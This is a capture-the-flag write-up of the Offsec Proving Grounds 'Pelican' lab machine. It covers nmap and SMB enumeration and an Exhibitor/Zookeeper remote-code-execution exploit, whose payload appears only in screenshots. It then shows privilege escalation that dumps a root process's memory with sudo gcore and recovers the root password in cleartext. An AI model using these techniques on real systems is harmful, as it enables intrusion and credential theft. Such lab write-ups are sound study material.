 ```yaml
---
title: Writeup - Offsec PG Pelican
date: 2023-10-02  
author: kei5uke
description: Writeup for PG Pelican 
tags:
  - linux
  - writeup
---
```


# Pelican

# **Enumeration with Nmap**

```bash
┌──(root💀kali)-[~/perican]
└─# nmap -p- -sC -sV 192.168.246.98 -T4 -oN nmap.out
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 01:05 EEST
Warning: 192.168.246.98 giving up on port because retransmission cap hit (6).
Stats: 0:09:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 01:15 (0:00:02 remaining)
Nmap scan report for 192.168.246.98
Host is up (0.047s latency).
Not shown: 65495 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  Eetbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
41665/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-10-01T22:15:28
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-10-01T18:15:31-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 600.31 seconds
```

# Enumerate SMB

```bash
┌──(root💀kali)-[~]
└─# smbclient \\\\192.168.246.98\\IPC$                                                                                   1 ⨯
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```

No interesting findings in SMB.


# Enumerate HTTP (8080)

![Screenshot 2023-10-02 at 01.26.03.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_01.26.03.png)

# Exploit the Service

I searched for an exploit for Exhibitor for Zookeeper and found an interesting note.

[Exhibitor Web UI 1.7.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48654)

![Screenshot 2023-10-02 at 02.19.01.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.01.png)

I added the necessary part in the java.env script and committed the setting.

![Screenshot 2023-10-02 at 02.19.21.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.21.png)

# Low Privilege Shell

![Screenshot 2023-10-02 at 02.34.36.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.34.36.png)

I successfully obtained the shell.

# Privilege Escalation

```bash
charles@pelican:/opt/zookeeper$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

The command `/usr/bin/gcore` is allowed to run as root apparently.

[gcore - GTFOBins](https://gtfobins.github.io/gtfobins/gcore/)

The gcore command generates a core file (dump file) of a running process. It can be used to retrieve sensitive information if the process is run by root.  
It can be a way to retrieve sensitive information if the process is run by root.

```bash
root       527  0.0  0.0   2276    72 ?        Ss   18:02   0:00 /usr/bin/password-store
```
I found an interesting process:

```bash
sudo /usr/bin/gcore 527
```
I got the dump.

```bash
charles@pelican:~$ strings core.527
strings core.527
CORE
password-store
/usr/bin/password-store 
CORE
CORE
/usr/bin/passwor
////////////////
LINUX
...
```
I analyzed the strings.

```bash
001 Password: root:
ClogKingpinInning731
```
I found interesting text. It could be the root password.

![Screenshot 2023-10-02 at 02.45.22.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.45.22.png)

`sudo su root -p`  and paste the password and got the root shell.

# Note
After a hiatus from Linux CTF challenges, diving into this one brought back the familiar rush. Unraveling the pathway to obtaining a shell was a bit of a work, yet the vulnerability turned out to be right under my nose, hidden in plain sight on the web page.

In the initial stages, I overlooked some crucial information simply because the vulnerability version didn't match up. This served as a powerful reminder to always be vigilant and meticulous in scrutinizing every detail. It's a testament to the fact that sometimes, the most critical clues can be hiding in unexpected places.
 
